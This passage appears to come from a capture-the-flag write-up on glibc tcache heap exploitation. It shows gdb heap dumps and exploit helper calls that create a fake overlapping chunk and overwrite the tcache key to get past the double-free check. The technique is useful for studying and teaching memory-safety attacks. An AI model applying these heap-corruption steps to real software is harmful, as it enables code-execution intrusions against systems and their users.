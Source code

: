 

Heap:



    0x55555555c250: 0x0000000000000000      0x0000000000000051
    0x55555555c260: 0x0000000000000000      0x000055555555c010
    0x55555555c270: 0x0000000000000000      0x0000000000000000
    0x55555555c280: 0x0000000000000000      0x0000000000000061
    0x55555555c290: 0x0000000000000000      0x000000000000000a
    0x55555555c2a0: 0x0000000000000000      0x0000000000000051
    0x55555555c2b0: 0x000055555555c290      0x000055555555c010  <-- now points to fake chunk
    0x55555555c2c0: 0x0000000000000000      0x0000000000000000
    0x55555555c2d0: 0x0000000000000000      0x0000000000000000
    0x55555555c2e0: 0x0000000000000000      0x0000000000000000
    0x55555555c2f0: 0x0000000000000000      0x0000000000020d11



`heapinfo` also shows this:



    (0x50)   tcache_entry[3](2): 0x55555555c2b0 --> 0x55555555c290 (overlap chunk with 0x55555555c2a0(freed) )



If I want to get access to this chunk, I'll first need to get 2b0 out of
the way. I can't just get it and free it, or it will end up back in the
same place. So I'll get it, edit it to a smaller size, and then free
that, so that two smaller chunks go into tcache, leaving the fake chunk
ready to be used.



    add('B3', 0x40)                                 # fake in 0x50 tcache, f2 -> B
    edit('B3', 0x20)                                # B-end in 0x20 tcache
    rm('B3')                                        # B in 0x30 tcache



Now I'll add a 0x40 entry, and it will return 290, which I can use to
overwrite into B. Before I do that, I have another problem. I want to
free B2, but I can't because it will return a double free error. It is
checking the key that comes 0x10 after the size meta, so I need to
change that. Luckily, I have this new overlapping chunk. So I'll create
it such that it leaves the 0x51 the same, puts a null for the next
tcache, and changes the key.



    add('fake1', 0x40, p64(0)*3 + p64(0x51) + p64(0))



Now the heap shows the key is no longer matching the bad value:



    0x55555555c250: 0x0000000000000000      0x0000000000000051
    0x55555555c260: 0x0000000000000000      0x000055555555c010
    0x55555555c270: 0x0000000000000000      0x0000000000000000
    0x55555555c280: 0x0000000000000000      0x0000000000000061
    0x55555555c290: 0x0000000000000000      0x0000000000000000
    0x55555555c2a0: 0x0000000000000000      0x0000000000000051
    0x55555555c2b0: 0x0000000000000000      0x000055555555000a  <-- no pointer and key ends in "\x00\x0a" and not "\xc0\x10"
    0x55555555c2c0: 0x0000000000000000      0x0000000000000000
    0x55555555c2d0: 0x0000000000000000      0x0000000000000021
    0x55555555c2e0: 0x0000000000000000      0x000055555555c010
    0x55555555c2f0: 0x0000000000000000      0x0000000000020d11
